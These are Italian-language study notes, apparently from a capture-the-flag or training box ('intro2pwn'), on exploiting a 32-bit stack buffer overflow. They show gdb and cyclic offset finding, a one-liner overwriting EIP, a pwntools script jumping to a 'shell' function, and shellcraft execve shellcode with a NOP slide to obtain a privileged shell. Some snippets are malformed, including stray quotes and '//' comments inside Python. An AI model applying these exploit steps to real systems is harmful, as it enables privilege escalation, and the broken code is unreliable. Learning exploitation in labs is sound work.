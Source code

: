 ```bash
gdb <PATH>
```
```gbd
r < pattern o r < <(cyclic 50)
```
Cosi trovi quanti caratteri servono per sovrascivere l'eip
```gbd
cyclic -l <fault address>
```
![[Pasted image 20230512100403.png]]
In questo caso 44

per vedere a quale eip puntare
```dbg
disassemble shell 
```
![[Pasted image 20230512100447.png]]
```bash
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | <PATH PROGRAMMA>
```
### **SCRIPT**
```python
from pwn import *
proc = process('<PATH>')
elf = ELF('/opt/secret/root') //ELF pernette di individuare importanti indirizzi di memoria, come shell che serve a noi in questo esempio
shell_func = elf.symbols.shell
payload = fit({ //Crea il payload
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```
### **SHELLCRAFT**
```python
from pwn import *
padding = cyclic(cyclic_find(gls'))
//trova l'esp(in questo caso 0xffff....)
eip = p32(0xffffd510+200) //200 oppure 8 o 16, trovatelo, basta che punti all'eip
nop_slide = "\x90"*1000 //1000 ora ma variabile da box a box
shellcode = "\xcc"
payload = padding + eip + nop_slide + shellcode
//hitta il breakpoint
```
```bash
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
```
```python
---> shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
proc = process('./intro2pwnFinal')
proc.recvline()
proc.send(payload)
proc.interactive()
```